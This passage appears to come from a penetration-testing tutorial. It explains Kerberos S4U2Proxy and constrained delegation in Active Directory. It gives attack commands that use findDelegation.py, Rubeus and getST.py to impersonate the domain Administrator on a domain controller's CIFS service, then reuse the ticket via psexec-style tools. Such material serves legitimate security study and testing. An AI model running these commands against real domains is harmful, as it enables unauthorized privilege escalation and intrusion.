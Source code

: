 `S4U2Proxy` as `S4U2Self` is also an extension of `Kerberos`. It allows the delegation server to ask for a `ST` for "any" user and use it on any service on which it has permission to delegate (only works with `Kerberos`). To be able to do that, `S4U2Proxy` needs a `forwardable ST`. The `forwardable` flag of a `ST` can be obtained thanks to `S4U2Self` (only if the two upper conditions specified in the `S4U2Self` section are not set).

#### Constrained Delegation

Then the `Constrained Delegation` was created. Here, the constrained delegation server can only impersonate users on specific services. As you can see on the bellow schema, the user can be impersonated only on the file server and not on the two other. 

| ![[constrained_delegation_schema.png]](https://en.hackndo.com/assets/uploads/2019/02/constrained_delegation_schema.png) |
| :---------------------------------------------------------------------------------------------------------------------: |
|                                                   **Source: HacknDo**                                                   |

The `Contrained Delegation` server ask the DC (Domain Controller) if it can receive a `ST` (Service Ticket) as the specified user. This is possible thanks to [S4U2Proxy](#S4U2Proxy).

> Note that the information about if the `Constrained Delegation` server is allowed or not to impersonate a user on a specific server is stored in the DC not on the `Constrained Delegation` server.
{: .prompt-info}

> Only DA (Domain Admin) can change the delegation rights. 
{: .prompt-warning}

To exploit the `Constrained Delegation`, we first need to find it using the following command:

```bash
findDelegation.py $DOMAIN/$USER:$PASSWORD -target-domain $TARGET_DOMAIN
```

Now there are two scenarios. The first one is if there is protocol transition on the service that has the right to delegate.

##### With protocol transition

In this case, we first need to ask a `TGT` for the user we want to impersonate, then execute S4U2Self followed by S4U2Proxy to impersonate the administrator.

For Windows, you can use `Rubeus`:

```powershell
.\Rubeus.exe asktgt /user:$USER /domain:$DOMAIN /password:$PASSWORD
.\Rubeus.exe s4u /ticket:$TICKET /impersonateuser:administrator /msdsspn:CIFS/$DC_NAME /ptt
```

Or on Linux:

```bash
getST.py -spn "CIFS/$DC_NAME" -impersonate Administrator -dc-ip $DC_IP $DOMAIN/$USER:$PASSWORD
```

With the received ticket, we can export it and then use it to connect to the machine with tools like `smbexec`, `psexec`, `wmiexec`...

> You need to export the ticket using the `export KRB5CCNAME=/PATH/TO/ticket.ccache` command
{: .prompt-info}

